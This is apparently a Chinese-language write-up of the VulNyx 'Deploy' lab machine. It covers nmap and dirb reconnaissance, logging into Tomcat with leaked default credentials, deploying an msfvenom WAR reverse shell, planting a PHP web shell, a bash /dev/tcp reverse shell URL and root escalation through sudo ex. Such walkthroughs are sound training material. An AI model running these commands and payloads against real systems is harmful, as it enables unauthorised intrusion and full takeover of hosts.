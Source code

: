 # 环境

来自[Vulny_Deploy](https://vulnyx.com/#Deploy)，tomcat泄露敏感信息，在网站根目录写入反弹shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906135707643](image/image-20240906135707643.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.13
```

![image-20240906135728007](image/image-20240906135728007.png)

## 服务详情

```bash
sudo nmap -sV -sC -O -p22,80,8080 192.168.10.13
```

![image-20240906154857519](image/image-20240906154857519.png)

## 目录扫描

```bash
dirb http://192.168.10.13
dirb http://192.168.10.13:8080
```

无结果

# web渗透

## 网站泄露信息

访问http://192.168.10.13:8080/host-manager/html

![image-20240906155144282](image/image-20240906155144282.png)

```bash
用户名：tomcat
密码：s3cret
```

登录到tomcat后台

## 上传shell

```bash
msfconsole
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.10 LPORT=8888 -f war > shell.war
nc -lvvp 8888
```

![image-20240906155306995](image/image-20240906155306995.png)

访问shell，即可反弹shell

![image-20240906155443905](image/image-20240906155443905.png)

## 提权

访问tomcat-users.xml文件，发现有用户`sa`，密码`salala!!`

![image-20240906155750819](image/image-20240906155750819.png)

然后在/var/www/html网站根目录下写入一个反弹shell

```bash
echo '<?php system($_GET["cmd"]); ?>' >/var/www/html/cmd.php

```

访问`http://192.168.10.13/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.10.13/8888 0>%261 "`

[ex提权](https://gtfobins.github.io/gtfobins/ex/)

```bash
得到交互式更好的shell
#########
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
source /etc/skel/.bashrcs
############
sudo -l
sudo -u root /usr/bin/ex
!/bin/bash
```

![image-20240906161651503](image/image-20240906161651503.png)
